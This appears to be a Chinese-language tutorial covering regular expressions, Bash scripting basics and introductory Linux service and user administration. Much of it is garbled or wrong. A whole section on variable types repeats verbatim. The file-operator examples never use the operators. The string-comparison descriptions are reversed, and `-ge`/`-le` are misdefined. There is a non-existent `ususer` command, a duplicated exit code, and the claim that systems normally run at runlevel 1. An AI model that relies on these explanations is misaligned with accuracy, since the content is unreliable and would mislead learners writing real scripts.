正则表达式通常简称为 RegEx，允许你编写简单或复杂的搜索模式，可以匹配文件名、文件中的数据（如日志）等字符串。RegEx 可以非常强大，但在你习惯之前会让你非常困惑。如果起初看起来不合逻辑，请继续尝试使用。

**示例：** `^\D+\d{4}.jpg` 匹配 PICP0119.jpg（或任何在至少一个非数字字符之前的四位数字）。

本小节仅提供对 RegEx 的非常简短的介绍，如果你想了解更多信息，我想向你推荐许多优秀的参考资料。

**注意：** *RegEx 有几种不同的变体，因此此参考可能无法与所有可用版本完美对齐。尽管如此，它应该提供足够的通用参考，让你能够应用从中中学到的知识。*

| 标记 (Token) | 说明 | 示例 |
| :--- | :--- | :--- |
| (a\|b) | 字符 a 或 b（分组和范围） |  |
| (?:...) | 惰性（非捕获）分组（分组和范围） |  |
| \n | 第 n 组/子模式（分组和范围） |  |
| ^ | -或- 插入符号（脱字符符号错误，此处为caret符号）用作锚点搜索字符串的开头。（锚点） | ^abc 匹配 ‘abcdef’ 或 ‘abc123’，不匹配 ‘123abc’ |
| \$ | -或- 美元符号用作锚点搜索字符串的末尾。（锚点） | abc$ 匹配 ‘123abc’，不匹配 ‘abc123’。高级：^abc(.*)123$ 匹配 abcxyz123 |
| . | 点字符匹配任意单个字符（换行符 [\n] 除外）。分组和范围） | a.c 匹配 abc 或 adc，不匹配 abd |
| \* | 星号匹配前一个表达式的零次或多次。**注意：** *将星号与点结合形成“匹配任意”表达式 (.*)。* | ab\*c 匹配 abc 或 abbc，不匹配 adc |
| + | 加号匹配前一个表达式的一次或多次。 | ab+c 匹配 abc 或 abbc，不匹配 ac |
| ? | 问号匹配前一个表达式的零次或一次出现。 | ab?c 匹配 ac 或 abc，不匹配 abbc |


# 正则表达式元字符

| `\|` | 管道（竖线）分隔两个或多个字符或表达式，其中任何一个都可能匹配。[逻辑“或”] | `a\|b` 匹配 a 或 b；`a(b\|c)d` 匹配 `abd` 或 `acd` |
| `{}` | 大括号表示前面的表达式必须匹配精确的次数。[量化符] | `ab{2}c` 匹配 `abbc`，不匹配 `abc` 或 `abbbc` |
| `[]` | 匹配指定字符集中的任意单个字符。[字符集]（分组和范围） | `\[abc\]` 匹配 a, b 或 c；`\[af-j\]` 匹配 f, g, h 或 j |
| `[^]` | 匹配不在指定字符集中的任意字符。[否定字符集]（分组和范围） | `[^qr]` 匹配 `pqr` 以外的任意字符 |
| `()` | 括号将多个字符组合为一个表达式。[捕获组/表达式]（分组和范围） | `a|(bc)` 匹配 |
| `\\` | 反斜杠转义字符以字面意思匹配这些字符。[转义字符] **注意：** *反斜杠用于非标记字符之前指示后续特殊字符：* `\t` = 制表符 ($9); `\r` = 回 ($d); `\v` = 垂直制表符 ($b); `\f` = 符 ($c); `\n` = 换行 ($a); `\e` = 转义 ($b); `\O` = 匹配八进制数字（字符类）；`\x` = 匹配 ASCII | |

## Bash 脚本

**概述：** 本章将介绍使用 BASH 内置命令和外部命令进行脚本。本概述为你提供了使用该技术所需的基础知识。

本章假设你以前写过脚本，并且对 Linux 和 BASH 有基础了解。此主题仅从高层次进行涵盖，以提供一个你可以在其基础上构建的基础。脚本本质上是一个按顺序排列的命令列表的文本文件，并包含条件分支和循环以完成特定任务。这些命令被传递给命令解释器进行处理。

例如，通过下面的指令，将创建一个列出根目录下所有文件的脚本，使用的命令为 `ls -al /`。通过向此脚本添加更多命令，你可以添加额外功能。

### 创建你的第一个脚本文件

设置脚本并执行它需要遵循几个基本步骤。如果你不遵循这些基本步骤，你的脚本将无法正常运行。

在下面的示例中，你首先需要创建一个包含初始命令集的基础文件。一旦创建了文件，你就可以按照你喜欢的方式对其进行修改。

要创建脚本，输入：

`nano ~/script_file.sh` 向脚本中添加以下命令，输入：`#!/bin/bash`

`ls -al /`

(如需保存文件并退出编辑器，请按 `Ctrl+X`，输入：`y` 并按回车) 你应该注意脚本的第一行（即 `#!/bin/bash`），这是一行非常重要的代码，因为它告诉 shell 使用哪种解释器来处理脚本。在这个示例中，它告诉 shell 后续的命令将使用 Bash。

在创建文件后，你必须授予它执行权限，以便操作系统知道它有权运行该脚本。

将用户文件权限更改为可执行，输入：`chmod u+x ~/script_file.sh` 在授予执行权限后，你就可以通过输入想要运行的脚本文件名来指示 shell 执行代码。

要运行脚本，输入：

`./script_file.sh` 你在之前的章节中学会的所有示例都可以集成到脚本中。本章将简要介绍一些主题，以帮助你入门。

### 代码注释

要对代码进行注释，你需要在你的笔记或注释前面使用 `#`（井号或哈希符号）。

示例：

```
## 这是一个测试
```

### 变量

我们需要涵盖的首要内容之一是如何处理变量。在其他章节中简要提到过它们，但在这里将进行更深入的介绍。

变量功能为脚本提供了获取输入、临时存储数据以及向用户显示输出或将数据发送给调用脚本的方法。变量可以分为两类：**环境变量：**由系统维护，它们会被当前 shell 以及任何派生的子 shell 或进程继承。

**Shell 变量：** 仅包含在设置或定义的 shell 中。它们主要用于跟踪临时数据，例如会话中的当前工作目录。

#### Shell 变量

shell 变量通常有两种类型：一种是系统维护的，另一种是用户为脚本或将信息传递到其他命令、脚本或程序而定义的。

如前所述，shell变量中的值可以是用户定义的。这意味着用户负责更新这些值。

**注意：** *变量名对大小写敏感，因此 `test`、`Test`、`TEST` 是三个不同的变量。*

**示例：**

要创建一个自定义变量，输入：

`test=HelloWorld` 要显示自定义变量的内容，输入：`echo $test`

要清除（或取消定义）shell 变量，输入：`unset shell_variable_name`

**注意：** *要查看所有 shell 变量，输入：`set | less`。*

*要将环境变量降为 shell 变量，输入：`export -n env_variable_name`*

**提示：** *你可以将命令及其参数的 STDOUT 赋值给变量，然后对该信息执行另一个操作，例如：`x=$(cmd a1 a2 a3)`。要查看变量 `x` 的内容，输入：`echo $x`。有关命令替换（即 `$()` )）的更多信息，请参阅后续章节“进阶：使用命令替换”*

下面的表格是 Linux 中常用的 shell 变量列表。根据你的发行版和版本，其中某些变量可能存在，也可能不存在。

| Shell 变量 | 变量描述 | 查看变量 |
| :--- | :--- | :--- |
| `_` (下划线) | 上一个执行过的命令。 | `echo $_` |
| `HOME` | 存储当前用户的家目录。 | `echo $HOME` |
| `LANG` | 当前的语言和本地化设置，包括字符编码。 | `echo $LANG` |
| `LS_COLORS` | 定义用于为 `ls` 命令添加彩色输出的代码。 | `echo $LS_COLORS` |
| `OLDPWD` | 显示上一个工作目录路径。 | `echo $OLDPWD` |
| `PPID` | shell 的父进程的进程 ID。 | `echo $PPID` |
| `PWD` | 显示当前工作目录路径。 | `echo $PWD` |
| `SHELL` | 显示正在使用的哪种登录 shell。 | `echo $SHELL` |
| `TERM` | 显示终端仿真类型。 | `echo $TERM` |
| `USER` | 显示登录用户名。 | `echo $USER` |

### 环境变量

同样有两种类型的环境变量。一种是由系统维护的，另一种是用户为脚本或将信息传递到其他命令、脚本或程序而定义的。

如前所述，环境变量中的值由系统维护，并在启动时通过配置文件进行配置。这意味着系统会自动创建并更新这些变量。

**示例：**

要创建或修改环境变量，输入：`export TEST=HelloWorld` 要显示环境变量的内容，输入：`echo $TEST`

**注意：** *要查看所有系统维护的环境变量，输入：`env | less`。这些都是系统变量。*

**提示：** *`printenv` 命令等同于 `env`，用于显示所有变量的值。*

下面的表格是 Linux 中常用的环境变量列表。根据你的发行版和版本，其中某些变量可能存在，也可能不存在。

| 环境变量 | 变量描述 | 查看变量 |
| :--- | :--- | :--- |
| `BASH_VERSINFO` | 存储此实例的 BASH 版本（机器读取） | `echo $BASH_VERSINFO` |
| `BASH_VERSION` | 存储此实例的 BASH 版本 | `echo $BASH_VERSION` |
| `BASHOPTS` | 启动时使用的选项列表 | `echo $BASHOPTS` |
| `CDPATH` | `cd` 命令使用的搜索路径。 | `echo $CDPATH` |
| `COLUMNS` | 输出到屏幕的字符宽度。 | `echo $COLUMNS` |
| `DIRSTACK` | `pushd` 和 `popd` 命令可用的目录栈。 | `echo $DIRSTACK` |
| `HISTFILE` | 存储命令历史文件名。 | `echo $HISTFILE` |
| `HISTFILESIZE` | 历史文件中可以保留的最大行数。 | `echo $HISTFILESIZE` |
| `HISTSIZE` | 内存历史中可以保留的最大命令数。 | `echo $HISTSIZE` |
| `HOSTNAME` | 存储计算机系统名称。 | `echo $HOSTNAME` |
| `IFS` | 输入字段分隔符。通常设置为空格 ⟩、制表符 ⟩ 和换行符 ⟩。 | `echo $IFS` |
| `MAIL` | 检查新邮件的文件名。 | `echo $MAIL` |
| `MAILCHECK` | 每秒检查 `MAILPATH` 或 `MAIL` 文件中新邮件的频率（秒）。 | `echo $MAILCHECK` |
| `MAILPATH` | 用于检查传入邮件的文件名冒号分隔分隔列表。（注意：此环境变量设置会覆盖 `MAIL` 设置。同时最多可以监控 10 个邮箱箱。） | `echo $MAILPATH` |
| `PATH` | 命令的搜索路径。 | `echo $PATH` |
| `PS1` | shell 提示符设置。（注意：`PS2` 变量用于声明跨行命令的次级提示符。） | `echo $PS1` |
| `PS2` | 次级提示符字符串，默认值为 "> " | `echo $PS2` |


| `PS4` | 启用跟踪 (`set -x`) 时每行之前的输出，默认值为 “+ ” | `echo $PS4` |

`SECONDS`

显示 shell 运行秒数。

`echo $SECONDS`

`SHELLOPTS`

可以使用 `set` 选项配置的 Shell 。

`echo $SHELLOPTS`

`UID`

当前登录用户的 ID。

`echo $UID`

## 持久变量 (Persistent Variables)

由于变量（即环境变量和 变量）存储在 RAM 中，它们是临时的，当 shell 进程被杀死或计算机关闭时将会消失。持久变量存储在配置文件中，并在系统加载或 shell 启动时加载。

在登录时创建预定义变量取决于 Bash 如何启动的以及加载了哪个配置文件。基本上有四种用户会话类型（也称为登录 shell）：登录（Login）、非登录（Non-Login）、交互式（Interactive）和非交互式（Non-Interactive）。

- **登录 (Login)**：shell 会话在用户验证后开始（例如本地或 ssh 终端会话）。登录 shell 会话从 `/etc/profile` 文件读取配置详情。然后，它将在用户目录下查找第一个用户登录 shell 配置文件，以加载任何用户特定的配置（即 `~/.bash_profile` -或- `~/.bash_login` -或- `~/.profile`）。

- **非登录 (Non-Login)**：当从已验证的登录会话内部启动新的 shell。例如，当你从终端运行 Bash 命令时，会启动一个（位于登录用户凭据）非登录 shell 会话。非登录 shell 会话读取 `/etc/bash.bashrc` 文件，然后读取用户特定的 `~/.bashrc` 文件来配置环境。

- **交互式 (Interactive)**：连接到终端并正在使用的 shell 会话。例如，ssh 会话被定义为交互式登录 shell。

- **非交互式 (Non-Interactive)**：未连接到终端会话且当前未使用的 shell 会话。例如，当你在从非交互式、非登录 shell 运行的命令行中运行脚本时。非交互式 shell 会话首先读取名为 `BASH_ENV` 的环境变量，然后读取该变量指定的文件来设置新的 shell 环境。

**提示：** 要强制当前的 shell 会话重新重读配置文件，请输入：

`source ~/.bashrc`

**注意：** `单个用户定义的变量（非系统范围）可以在登录和非登录 shell 会话中均可用，可以在 ~/.bashrc 文件中定义。`

`要创建系统范围的环境变量，你需要将变量定义添加到以下文件之一：/etc/profile, /etc/bash.bashrc, /etc/environment`

## Shell vs. 环境 vs. 持久变量

如果你查看一个显示操作系统不同层级的分级图，其中你运行命令的用户层位于顶部，硬件位于底部。在这里你可以看到 shell 与环境变量之间的区别。环境变量运行在较低的级别，它们对所有 shell 实例都可用。此外，由于持久变量是在计算机或 shell 启动时从配置文件加载的，它们可以不受进程被杀死或计算机关闭的影响。

### 系统层：Shell/环境/持久变量

| 层级 | 说明 |
| :--- | :--- |
| **用户层 (User Layer)** | 命令/程序（控制台） |
| **Shell (实例)** | Shell 变量：这些变量仅在 shell 的当前实例中可用。可以运行多个 shell 实例，每个实例都有自己独特的变量集。 |
| **操作系统层** | 环境变量：这些变量对所有 shell 实例可用。持久变量：这些变量在计算机或 shell 启动时从配置文件加载。 |
| **内核 (Kernel)** | 这是模块、驱动程序等加载的地方。 |
| **硬件层 (Hardware Layer)** |（例如 CPU、RAM、存储、网卡） |

## 字符串类型 (String Types)

Bash 只支持几种不同类型的变量，例如：字符串、整数、数组和只读（readonly）。默认情况下，除非另有声明，否则 Bash 将所有变量视为字符串。你甚至允许对字符串进行数学运算，即使它不是整数。

例如，如果你输入：

```bash
a=1234
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1235

现在如果你将 `$a` 声明为整数：

```bash
a=1234
declare -i a
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1235

使用 `declare` 命令，你还可以使变量变为只读，这意味着它不能被修改，只能被删除。

例如，如果你输入：

```bash
declare -r a=1234
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1234

Bash 还支持数组变量，允许一个变量持有相关信息（或值）。它基本上是一个像许多变量的变量，每组值都有从 0 到……的索引值。

例如，创建一个 Linux 发行版的数组，输入：

```bash
Distro[0]='Red Hat'
Distro[1]='Debian'
Distro[2]='Ubuntu'
```

要查看索引为 2 的数组中的值，输入：`echo ${Distro[2]}`

**提示：** 要创建一个 Linux 发行版的数组，输入：`Distro[0]='Red Hat'`, `Distro[1]='Debian'`, `Distro[2]='Ubuntu'`。要查看索引为 2 的数组中的值，输入：`echo ${Distro[2]}`。

**注意：** `单个用户定义的变量（非系统范围）可以在登录和非登录 shell 会话中均可用，可以在 ~/.bashrc 文件中定义。`

`要创建系统范围的环境变量，你需要将变量定义添加到以下文件之一：/etc/profile, /etc/bash.bashrc, /etc/environment`

Bash 只支持几种不同类型的变量，例如：字符串、整数、数组和只读。默认情况下，除非另有声明，Bash 将所有变量视为字符串。你甚至允许对字符串进行数学运算，即使它不是整数。

例如，如果你输入：

```bash
a=1234
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1235

现在如果你将 `$a` 声明为整数：

```bash
a=1234
declare -i a
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1235

使用 `declare` 命令，你还可以使变量变为只读，这意味着它不能被修改，只能被删除。

例如，如果你输入：

```bash
declare -r a=1234
let "a += 1"
echo "a = $a"
```

`$a` 的输出将是 1234

Bash 还支持数组变量，允许一个变量持有相关信息（或值）。它基本上是一个像许多变量的变量，每组值都有从 0 到……的索引值。

例如，创建一个 Linux 发行版的数组，输入：

```bash
Distro[0]='Red Hat'
Distro[1]='Debian'
Distro[2]='Ubuntu'
```

要查看索引为 2 的数组中的值，输入：`echo ${Distro[2]}`

## 字符串操作 (String Manipulation)

现在你理解了不同类型的变量，你现在需要学习如何修改字符串。Bash 支持两种字符串函数。当你需要从字符串中删除文本时，这些函数非常有用。

第一个 `${B#text}` 从字符串开头删除指定的字符。第二个 `${B%text}` 从字符串末尾删除指定的字符。

**例：** 下面是这些函数的两个示例：

```bash
B="12345"
C=${B#123}
echo $C
```

结果：45

**或：**

```bash
B="12345"
C=${B%45}
echo $C
```

结果：123

## 向脚本传递参数 (Passing Arguments into a Script)

有时你将向脚本传递参数。从命令行向脚本传递参数与你传递它们的方式完全相同。尽管，这取决于脚本如何处理它们。

例如，假设你有一个名为 `myfirst.sh` 的脚本。这是一个简单的脚本，只显示传递给它的参数。传递给脚本的每个参数根据其位置分配一个变量 `"$1"`, `"$2"` 等。参数的数量在 shell 变量 `"$#"` 中。

```bash
cat myfirst
echo "第一个参数: $1"
echo "第二个参数: $2"
```

当你执行脚本时，当你传递参数时，它将显示它们。

`$ ./myscript hello world`

第一个参数：hello

第二个参数：world

## 条件分支与循环 (Conditional branching and Looping)

条件分支和循环是稍微高级的功能。这赋予了脚本在满足特定条件时做出选择智能。例如，如果发生了某些事情，就执行此，否则执行其他。


## 分支 (Branching)

条件分支利用关系运算符测试条件是否满足。命令将根据条件为真还是假来执行代码。

**注意：** *括号与表达式之间的空格非常重要（例如 \[ $test = "true" ]), 不要遗漏它们。*

### if - then 语句 (If - Then Statement)

利用关系运算符测试条件是否满足，THEN 执行代码。否则如果条件不满足，它将不执行代码。

有两种编写这种代码的方法，短形式和长形式。短形式从命令行使用。而长形式在脚本内部使用。

短形式使用分号 `;` 作为分隔符，而不是换行，看起来像这样：`if 条件; then 命令...; fi`

长形式利用缩进使代码更具可读性（这是一个非常推荐的技术），看起来像这样：`if 条件`
```
then
命令...
fi
```

示例:
```
test=true
if [ $test = true ]
then
echo "test is true"
fi
```

## If - Then - Else 语句

利用关系运算符测试条件是否满足，如果满足，则执行代码。如果条件不满足，它将测试下一个条件（如果可用）。如果所有条件都失败，则它将执行 ELSE 子句中的代码。

示例:
```
if [ condition ]
then
命令...
elif [ condition ]
then
命令...
else
命令...
fi
```

## 嵌套 If - Then 语句

与 If - Then - Else 语句类似，嵌套的 If - Then 语句（即在一个 if 语句内部的另一个 if 语句）也有其用处。

接下来的示例检查 `$x` 是否大于 200，然后检查它是否为偶数。这是你仅通过 If - Then - Else 语句无法完成的。

示例:
```
x=300
if [ $x -gt 200 ]
then
echo It's a large number.
if (( $x % 2 == 0 ))
then
echo This number is even.
fi
fi
```

## 关系运算符

关系运算符用于测试变量或值是否满足了特定条件（例如：真、假、大于或小于等）。一些不同类型的命令使用这些关系运算符。

- `! expression` = 表达式为假 **例:** `var=2 && [ ! $var -eq 1 ] && echo "True"`

## 字符串运算符

这些运算符测试包含字符串的变量或命令输出的内容（例如 A-Z, 0-9, @, #, $, %, ^, &, *, -, =, _, +, 等），用以检查是否满足了特定条件(s)，然后执行真或假操作（即运行指定的代码）。

- `-n string` = 测试字符串长度是否大于零（即非空）**例:** `var="abc" && [ -n "$var" ] && echo "Not Empty"`
- `-z string` = 测试字符串长度是否等于零（即为空）**例:** `var="" && [ -z "$var" ] && echo "Empty"`
- `=` = 测试字符串是否相等（例如 `[ $string1 = $string2 ]` ）**例:** `var="abc" && [ $var = "abc" ] && echo "True"`
- `!=` = 测试字符串是否不等（例如 `[ $string1 != $string2 ]` ）**例:** `var="abc" && [ $var != "abc" ] && echo "True"`
- `>` = 测试第一个字符串排序后是否在第二个字符串之前（例如 `"string" > "string"` ）**例:** `var="aac" && [[ $var > "abc" ]] && echo "True"`

**注意:** `"<"` 在 `[ ]` 结构内需要进行转义。

**例:** `var="aac" && [ $var \< "abc" ] && echo "True"`

- `<` = 测试第一个字符串排序后是否在第二个字符串之后（例如 `"string" < "string"` ）**例:** `var="xxz" && [[ $var < "xyz" ]] && echo "True"`

**注意:** `">"` 在 `[ ]` 结构内需要进行转义。

**例:** `var="xxz" && [ $var > "xyz" ] && echo "True"`

## 数字运算符

这些运算符测试包含数字的变量或命令输出的内容，用以检查是否满足了特定条件(s)，然后执行真或假操作（即运行指定的代码）。

- `-eq` = 测试变量是否等于该值（例如 `[ integer1 -eq integer2 ]` ）**例:** `var=1 && [ $var -eq 1 ] && echo "True"`

**例:** `var=1 && (( $var == 1 )) && echo "True"`

- `-ne` = 测试变量是否不等该值（例如 `[ integer1 -ne integer2 ]` ）**例:** `var=2 && [ $var -ne 1 ] && echo "True"`

**例:** `var=2 && (( $var != 1 )) && echo "True"`

- `-gt` = 测试变量是否大于该值（例如 `[ integer1 -gt integer2 ]` ）**例:** `var=2 && [ $var -gt 1 ] && echo "True"`

**例:** `var=2 && (( $var > 1 )) && echo "True"`

- `-lt` = 测试变量是否小于该值（例如 `[ integer1 -lt integer2 ]` ）**例:** `var=1 && [ $var -lt 2 ] && echo "True"`

**例:** `var=1 && (( $var < 2 )) && echo "True"`

- `-ge` = 测试变量是否大于该值（例如 `[ integer1 -ge integer2 ]` ）**例:** `var=2 && [ $var -ge 1 ] && echo "True"`

**例:** `var=2 && (( $var >= 1 )) && echo "True"`

- `-le` = 测试变量是否小于该值（例如 `[ integer1 -le integer2 ]` ）**例:** `var=1 && [ $var -le 2 ] && echo "True"`

**例:** `var=1 && (( $var <= 2 )) && echo "True"`

## 文件运算符

这些运算符测试包含字符串的变量或命令输出的内容，用以检查是否满足了特定条件(s)，然后执行真或假操作。

- `-d` = 测试是否为目录 **例:** `test=true && echo "True"`
- `e` = 测试是否存在 **例:** `test=true && echo "True"`
- `r` = 测试是否可读 **例:** `test=true && echo "True"`
- `s` = 测试是否非空 **例:** `test=true && echo "True"`
- `w` = 测试是否可写 **例:** `test=true && echo "True"`
- `x` = 测试是否可执行 **例:** `test=true && echo "True"`
- `f` = 测试是否为普通文件 **例:** `test=true && echo "True"`
- `h` = 测试是否为符号链接 **例:** `test=true && echo "True"`
- `O` = 测试是否为块设备 **例:** `test=true && echo "True"`
- `G` = 测试是否为字符设备 **例:** `test=true && echo "True"`
- `nt` = 测试是否较新 **例:** `test=true && echo "True"`
- `ot` = 测试是否较旧 **例:** `test=true && echo "True"`

## 布尔运算符

这些运算符测试包含布尔值的变量或命令输出，用以检查是否满足了特定条件(s)，然后执行真或假操作（即运行指定的代码）。

- `true` = 值为真 **例:** `test=true && echo "True"`
- `false` = 值为假 **例:** `test=false && echo "True"`
- `&&` = 与运算符 **例:** `test=true && echo "True"`
- `||` = 或运算符 **例:** `test=true && echo "True"`

## 循环

BASH 提供了几种不同的循环结构。每种循环方法在不同情况下都有其优缺点。在编程时，你将需要考虑你在测试什么条件，以及你希望如何处理。

## For 循环（变量）


FOR 循环通常会持续到完成指定数量的操作。`FOR` 和 `DONE` 命令之间的任何代码都将被重复。一旦迭代次数完成，它将跳出循环。

类似于 `If - Then` 语句，有两种编写这种代码的方法：短形式和长形式。短形式从命令行使用，而长形式在脚本内部使用。

短形式使用分号（` ; `）作为分隔符，而不是换行，格式如下：`for VARIABLE in LIST... do commands...; done` 长形式利用缩进使代码更具可读性（这是一种非常推荐的技术），格式如下：

```bash
for 变量 in LIST... do
命令...
done
```

示例 #1（显示：1 次迭代，2 次迭代，3 次迭代）`for i in 1 2 3; do echo $i iteration; done` 示例 #2（显示：0-9）`for ((i=0; i < 10; i++)) do echo $i done`

## 创建过程

下一个脚本可以复制到脚本文件中，也可以直接粘贴到 shell 中。一旦定义了过程，你就不需要再次定义它，你做的就是通过过程名调用它。当用户使用其名称（例如 `ProcedureExample`）调用过程时，他们也可以传递参数（例如 `"This is a test..."`）。

下一个过程将显示传递它的参数或值。当调用 `ProcedureExample "This is a test..."` 时，它将在屏幕上显示 This is a test...。

```bash
#!/bin/bash
## 创建过程
ProcedureExample () {
    # 输出传递的参数
    echo $1
}

## 调用过程并传递参数
ProcedureExample "This is a test..."
```

## 退出状态码

每个命令都有一个退出状态码，该代码可以影响其他 shell 命令的行为。如果命令正常或成功完成，其退出状态码为 `0` 表示成功，非零表示失败、错误等。

例如，如果有一个名为 `myfile1.txt` 的文件，并且你输入：`cat myfile1.txt`，如果执行成功，它的退出状态码将为 `0`。但如果你不小心输入了：`cat myfile.txt`，如果执行失败，它的退出状态码将为 `1`。要查看上一个命令的退出状态码，你需要检查以下系统变量：`?$`。

要查看上一个命令的状态，输入：

```bash
echo $?
```

要测试退出状态码是否成功，输入：

```bash
if [ $? -eq 0 ]; then echo success; else echo failure; fi
```

如果你想控制自定义脚本或函数的退出状态码，可以在代码运行完成后传递它。`exit` 命令接受 `0 - 255` 之间的整数，在大多数情况下 `0` 和 `1` 就足够了。尽管如此，还有保留的状态退出码用于更特定的错误。

注意：每个命令的 `man page`（帮助文档）应该说明各种退出状态码及其含义。内置命令会返回退出状态码，执行的 shell 函数也是如此。

以下是保留的退出码数字及其通用含义：

| 退出码 | 含义 |
| :--- | :--- |
| 1 | 这是一个通用的错误。用于杂项错误，例如“除以零”或其他不允许的操作。 |
| 2 | 误用 shell内置置。例如缺少关键字或命令，或权限问题。 |
| 126 | 调命令无法执行。可能是权限问题或命令无法执行。 |
| 127 | 找不到命令。可能是 `$PATH` 的问题或拼写错误。 |
| 128 | `exit` 的参数无效。`exit` 只接受 `0 - 255` 范围内的整数参数。 |
| 128 | 致命错误信号 "n"。 |
| 130 | 脚本被 `Ctrl+C` 终止，产生致命错误信号 2。 |
| 255 | 退出状态超出范围，`exit` 只接受 `0 - 255` 范围内的整数参数。 |

## 我的第一个系统信息脚本

下面的脚本使用了本章中提到过的技术，并演示了如何使用它们。该脚本将收集并显示有关你的系统信息。

```bash
#!/bin/bash
## 获取系统主机名
HOSTNAME=$(hostname)
## CPU 架构
CPUTYPE=$(echo $HOSTTYPE)
## 从 /proc/meminfo 获取总内存（单位：GB）
MEM=$(awk '( $1 == "MemTotal:" ) { print $2/1048576 }' /proc/meminfo)
echo "----------------------"
## 显示系统主机名
echo "Name: $HOSTNAME"
## 检查系统是 32 位还是 64 位
if [ $CPUTYPE == 'x86_64' ]; then
    echo "Arch: 64-Bit"
else
    echo "Arch: 32-Bit"
fi
## 显示 RAM 总量。
echo "RAM: $MEM GB"
echo "----------------------"
```

## 系统管理

概述：任何 Linux 用户都必须学习一些系统管理功能（例如管理用户、磁盘、关闭系统等），以充分利用他们的系统。本章通过提供处理这些任务的高层概述，涵盖了这些功能。

### Linux 发行版概述

- 第 5 层：应用（即不利用 Shell 进行输入输入的程序）
- 第 4 层：Shell（即命令和脚本）
- 第 3 层：文件系统（即文件和目录）
- 第 2 层：网络与防火墙（即通信）
- 第 1 层：主机 OS（即内核/服务/库/数据）
- 第 0 层：基础设施（即硬件、虚拟机、云、IoT 等）

前提条件：本节要求你在系统中拥有 root 权限以安装服务并更改操作系统。在开始本节之前，请确保你获取了更新的系统。

### Linux 加载器

Linux 加载器是一个在启动过程后加载操作的小型程序。最流行的加载器称为 `GRUB`。其他发行版提供的替代启动加载器还有 `LILO` 和其他。如果你想了解关于此主题的更多信息，可以在你喜欢的搜索引擎中搜索 "Linux Boot"。

提示：启动时按住 Shift 键进入 `GRUB` 菜单。

### 运行级别初始化（旧系统）

在 Linux 中，“运行级别”（runlevels）是描述系统启动时加载哪些服务的操作级别。系统通常被设置为运行级别 1，它具有限制性，通常用于维护。每个运行级别执行的进程取决于 `/etc/rc` 目录的内容。该目录中的所有文件都是符号链接，指向 `/etc/init.d` 目录中启动服务的脚本。文件的名称非常重要，因为它们决定了脚本运行的顺序。

运行级别参考

- 0：停机（系统关机）
- 1：单用户（维护模式）
- 2：已配置网络的多用户模式
- 3：带网络的多用户模式（正常运行）
- 4：未使用（用户定义）
- 5：正常运行，并带 GUI
- 6：重新启动

注意：要查看系统当前运行的运行级别，某些如 Ubuntu 等最新发行版不再使用运行级别。运行级别技术不支持带有多个服务的启动系统。

### Systemd 初始化（新系统）

`Systemd` 是一套子系统，为 Linux 操作系统提供了基础构建模块。`Systemd` 的名称遵循 UNIX 在名称末尾添加 "D" 来命名守护程序的传统。

它是传统 UNIX System V 和自由软件发行版（BSD）初始化系统（即运行级别）的替代品。它具有“系统和服务管理器”，用于初始化和引导用户空间并在启动过程后管理系统服务。

该项目的主要目标之一是统一所有 Linux 发行版的基础配置和服务行为。截至 2015 年，大多数 Linux 发行版已采用 `systemd` 作为默认初始化系统。

## 管理服务

服务（又称守护进程）是在后台运行且不需要用户输入的程序和脚本。服务可以提供高级功能，例如 Web 服务器服务（如 Apache）、数据库服务（如 MySQL）等许多功能。

在管理服务时，你通常有四种操作：状态（Status）、启动（Start）、停止（Stop）和重启（Restart）。我认为这些功能都是不言自明的的，因此我不会详细介绍它们的作用。

你可以利用系统自带的包管理器添加新服务或删除旧服务。包管理器会处理所有获取必要库和移除不再需要的依赖的后台任务。

要查看所有服务的列表及其状态，输入：`systemctl` -OR— `service --status-all`

注意：`service` 命令用于运行 System V init 脚本。这应该用于在使用运行级别（runlevel）技术的系统。对于较新的系统，请使用 `systemctl`。

提示：要按资源使用情况显示顶部控制组，输入：`systemd-cgtop`。要显示服务列表及其使用的端口，输入：`netstat -tulpn`

注意：控制组（Control Groups）提供了一种为用户组和/或任务划分系统资源的方法。例如，控制组可以为共享计算机上的两组不同用户及其运行程序设置 CPU 和内存使用限制。


要检查守护进程服务的状态，输入：`systemctl status sshd` -OR— `service atd status`。如果服务未启动，输入：`sudo systemctl [start | stop] sshd` -OR- `sudo service_name atd [start | stop]`。

旧系统中这些命令的替代方案是：要检查状态，输入：`/etc/init.d/atd status`。启动或停止服务，输入：`sudo /etc/init.d/atd [start | stop]`。

**提示：** 在最后一个命令 `sudo systemctl stop nginx.service` 中查找并替换文本，输入：`^stop^start`

## 管理用户

任何系统管理员的基本功能之一都是管理本地系统的用户（添加、修改和删除）和组。接下来的命令将帮助你开始执行这些功能。

显示所有用户列表，输入：`cat /etc/passwd`

**提示：** 为了让输出更易读，输入：`cat /etc/passwd | column -t -s :`

向本地系统添加用户，输入：`sudo useradd -c "Jane Doe" -m -s /bin/bash jane`。修改现有用户，输入：`sudo ususer -u 3000 Jane`。删除用户，输入：`sudo userdel --remove-all-files jane`。

**注意：** `--remove-all-files` 标志确保由用户创建的文件也会被删除。

创建用户组，输入：`sudo groupadd app_admins`。修改用户组，输入：`sudo groupmod -g 300 app_admins`。删除用户组，输入：`sudo groupdel app_admins`。更改用户密码，输入：`passwd`。

更改另一个用户的密码，输入：`sudo passwd jane`。

**提示：** 要显示用户的账户详情，输入：`getent passwd jane`。此命令的另一种替代方案，输入：`grep -i jane /etc/passwd`。显示用户的组详情（真实和有效用户及组 ID），输入：`id jane`。显示用户所属的所有组，输入：`groups jane`

**注意：** 重要的系统文件位置：组账户信息：`/etc/group` 用户账户信息：`/etc/passwd` 安全用户账户信息：`/etc/shadow` 每个组的加密密码及组组成：`/etc/gshadow`

### 重要用户文件

每个用户主目录下都有隐藏文件，这些文件包含了 shell 和应用程序的配置和初始化数据。每当你登录或加载像 `vi` 或 `vim` 程序时，都会使用它们。

使用 `cat` 命令查看其中一个文件的内容。要查看你用户目录下的所有隐藏文件列表，输入：`ls -al ~`

这并不是你可能遇到的这些文件的完整列表，但它将涵盖一些最常用的文件。

- `.bash_history`：包含最近使用的命令列表。
- `.bash_logout`：用户在注销登录时由 shell 运行的 Bash 脚本。
- `.bash_profile`：在登录时初始化 shell 的 Bash 脚本，用于设置变量和别名。

**注意：** 如果未找到此文件，它将尝试使用 `.bash_login`。如果未找到该文件，它将尝试加载 `.profile` 文件。

- `.bashrc`：存储 Bash 初始化脚本，该脚本在每次启动 shell 时都会执行，与用户登录无关。

